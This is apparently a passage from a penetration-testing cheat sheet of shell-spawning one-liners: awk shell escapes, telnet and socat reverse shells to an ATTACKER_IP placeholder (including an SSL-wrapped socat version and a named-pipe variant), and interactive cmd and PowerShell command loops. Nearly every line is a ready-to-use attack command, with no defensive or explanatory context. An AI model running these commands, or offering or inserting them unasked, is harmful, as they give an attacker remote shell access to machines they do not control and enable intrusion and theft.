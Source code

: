### Basic shell
```bash
awk 'BEGIN {system("/bin/sh")}'
```

### Interactive
```bash
awk 'BEGIN {while(1) {printf "$ "; getline cmd; system(cmd)}}'
```

---

## Telnet Shell Spawns

### Spawn shell via telnet
```bash
telnet ATTACKER_IP PORT | /bin/bash | telnet ATTACKER_IP (PORT+1)
```

### PTY over telnet
```bash
mknod backpipe p && telnet ATTACKER_IP PORT 0<backpipe | /bin/bash 1>backpipe
```

---

## Socat Shell Spawns

### Basic shell
```bash
socat exec:'/bin/sh',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:PORT
```

### SSL encrypted
```bash
socat openssl-connect:ATTACKER_IP:PORT,verify=0 exec:'/bin/sh',pty,stderr,setsid,sigint,sane
```

---

## Windows CMD Shell Spawns

### Basic cmd
```cmd
cmd.exe /k
```

### PowerShell interactive
```cmd
powershell -nop -c "$host.UI.RawUI.WindowTitle = 'Shell'; $ps = [PowerShell]::Create(); $ps.AddScript('while($true) { $host.UI.RawUI.WindowTitle = (Get-Location).Path + ''> ''; $cmd = $host.UI.ReadLine(); Invoke-Expression $cmd }').Invoke()"
```

---